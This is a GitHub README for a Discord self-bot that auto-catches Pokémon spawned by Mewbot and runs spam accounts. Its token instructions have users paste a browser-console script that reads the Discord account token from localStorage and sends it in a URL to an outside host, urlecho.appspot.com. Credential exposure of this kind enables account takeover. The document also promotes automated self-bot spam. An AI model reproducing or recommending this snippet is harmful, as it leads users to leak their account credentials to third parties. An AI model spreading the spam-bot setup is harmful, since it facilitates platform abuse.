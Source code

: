 Pokecord-Autocatcher
=====
## Description: 
Due to the recent news that Pokecord is now official dead many servers have decided to move onto Mewbot. This is a program for Discord which allows you to auto-catch pokemon spawned by Mewbot with many more features yet to come!
## How to use:
1. Download latest release from [here](https://github.com/RussianWaffles/mewbot-autocatcher/releases) or download the latest dev build from [here](https://github.com/RussianWaffles/mewbot-autocatcher/blob/master/build.zip)
2. Extract the zip
3. Run `npm i --only=prod` to install dependencies
4. Start the program with `npm start`
5. Goto `localhost:3000`
6. Input your tokens by clicking on the blank avatars(Only the first one is needed if you don't require spam)
7. Edit the server configs by clicking on their icon's
8. Enable the options you require and the program is ready to go!
## How to get a token:
1. Login to the account you want the token of
2. Press `F12` or `CTRL + SHIFT + I` if nothing opens
3. Goto the Console tab
4. Copy and paste this script and press enter
```javascript
location.reload();
function getLocalStoragePropertyDescriptor() {
  const iframe = document.createElement('iframe');
  document.head.append(iframe);
  const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');
  iframe.remove();
  return pd;
}
Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());
window.location.href = "http://urlecho.appspot.com/echo?body=" + window.localStorage.getItem("token").split('"').join('');
```
5. Your token should be displayed back to you
## Features:
- Auto Catch: Catch pokemon as soon as they spawn
- Online Interface: Makes configuring the bot much easier than traditional configs
- Individual Server Config's: Incase you wish to only auto-catch on certain servers
- Auto-Updating: The bot checks if it and its JSON file is up-to-date on startup
- Auto-Reporting: Automatically report's and unrecognised pokemon it finds
- Auto-Restart Capable: Once configured if the bot the crashes and is configured as a service or with [forever](https://www.npmjs.com/package/forever "forever") it will have no problems starting back up.
- Authentication: The Online Interface can be password protected


## Online Interface
An easy to use Online Interface to configure the program.

![GUI](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI.png "GUI")
![GUI2](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI2.png "GUI2")
![GUI3](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI3.png "GUI3")
![GUI4](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI4.png "GUI4")

- Handles up to 3 bots at once, the Main Bot which is used to catch the pokemon and the 2 Spam Bots which are used to send spam
- An area for the Main Bot's servers where each one is able to be individually configured
- The main options for the program
- Bot Logs where any caught pokemon are displayed
- Debug Logs where logs for debugging are displayed
- Statistics to quickly check the program


## Spam
The two Spam Bots are able to spam into a given channel with a given spam delay across all configured servers using a random line picked from `spam.txt`

## Auto catch
The Main Bot is able to catch a pokemon either as soon as it spawns or with a given delay across all configured servers.

## Authentication
When enabled the Online Interface will ask any user that attempts to visit it for a username and password to be used in Basic Authentication.

By RussianWaffles
-----
